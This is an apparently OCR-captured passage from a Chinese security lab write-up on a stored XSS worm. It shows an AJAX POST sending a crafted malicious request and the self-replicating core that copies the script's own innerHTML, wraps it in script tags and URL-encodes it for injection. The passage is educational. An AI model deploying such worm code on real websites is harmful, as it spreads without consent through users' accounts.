 ```html
            // 设置请求为 POST 方法并指定目标 URL
            Ajax.open("POST", sendurl, true);

            // 设置请求头为表单 URL 编码格式
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

            // 发送构造好的恶意请求内容
            Ajax.send(content);
        }
    };
</script>

```

可以看到，关键部分为：

```javascript
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; // 获取脚本本身内容
var tailTag = "</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); // 编码蠕虫脚本内容
```

通过 `document.getElementById("worm").innerHTML` 获取自身脚本的内容，结合 `<script>` 标签的头部和尾部，生成完整的嵌入式蠕虫代码。

并使用 `encodeURIComponent` 对其编码，以便嵌入到 HTTP 请求的参数中。

接下来我们注入攻击代码：

![6-1](../image/6-1.png)
